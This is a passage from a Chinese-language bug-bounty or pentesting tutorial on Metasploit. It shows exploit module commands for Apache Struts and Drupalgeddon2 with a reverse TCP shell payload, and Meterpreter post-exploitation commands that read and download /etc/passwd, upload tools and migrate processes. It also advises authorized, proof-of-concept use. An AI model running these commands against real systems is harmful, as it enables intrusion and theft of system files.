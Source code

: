 ```bash
set BLANK_PASSWORDS true
set USER_AS_PASS true
run
```


### 7.3 基本Exploit使用

**7.3.1 Web應用程式Exploits**：

```bash
# Apache Struts漏洞
use exploit/multi/http/struts_code_exec_parameters
set RHOSTS target.com
set TARGETURI /struts2-showcase/
set payload java/jsp_shell_reverse_tcp
set LHOST your_ip
exploit

# Drupal漏洞
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS target.com
set TARGETURI /
exploit
```

**注意事項**：

```
❌ 在Bug Bounty中，通常不建議使用實際的exploit模組
✅ 建議只用於概念驗證（PoC）
✅ 優先使用scanner和auxiliary模組
✅ 總是獲得明確授權後才使用
```


### 7.4 Meterpreter基礎

**7.4.1 Meterpreter基本命令**：

```bash
# 系統資訊
sysinfo
getuid
getpid

# 檔案系統操作
pwd
ls
cd /tmp
cat /etc/passwd
download /etc/passwd
upload /root/tool.sh /tmp/

# 網路資訊
ifconfig
netstat
route

# 程序管理
ps
kill 1234
migrate 5678

# 螢幕截圖
screenshot

```